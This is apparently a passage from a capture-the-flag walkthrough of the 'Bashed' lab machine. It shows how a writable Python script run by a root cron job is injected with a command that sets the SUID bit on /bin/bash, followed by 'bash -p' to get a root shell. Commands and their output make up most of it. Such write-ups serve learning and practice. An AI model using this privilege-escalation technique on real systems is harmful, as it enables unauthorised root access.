 ```
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
[snip]

2022/10/02 20:47:50 CMD: UID=0    PID=1      | /sbin/init noprompt 
2022/10/02 20:48:01 CMD: UID=0    PID=2170   | /usr/sbin/CRON -f 
2022/10/02 20:48:01 CMD: UID=0    PID=2171   | /usr/sbin/CRON -f 
2022/10/02 20:48:01 CMD: UID=0    PID=2172   | python test.py 
2022/10/02 20:49:01 CMD: UID=0    PID=2173   | /usr/sbin/CRON -f 
2022/10/02 20:49:01 CMD: UID=0    PID=2175   | python test.py 
2022/10/02 20:49:01 CMD: UID=0    PID=2174   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
```

The `scriptmanager` user has rights to edit this file!

```
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Oct  2 20:50 test.txt
```

Because root executes this file we can use `os.system` to run commands as root. I used `sed` to import the library at the beginning of the file and then used `>>` to add the SUID bit onto `/bin/bash`. That will allow us to run the file as the owner, who is root. Giving us a root shell. For more on SUID you can read up on it [here](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)

```
sed -i '1s/^/import os\n/' test.py
echo "os.system('chmod u+s /bin/bash')" >> test.py

scriptmanager@bashed:/scripts$ cat test.py
cat test.py
import os
f = open("test.txt", "w")
f.write("testing 123!")
f.close
os.system('chmod u+s /bin/bash')
```

After waiting a minute or two the `s` bit is set
```
scriptmanager@bashed:/scripts$ ls -ls /bin/bash
ls -ls /bin/bash
1016 -rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

Now that everything is set getting root is as simple as running `bash -p`

```
scriptmanager@bashed:/scripts$ bash -p
bash -p
bash-4.3# whoami
whoami
root
```
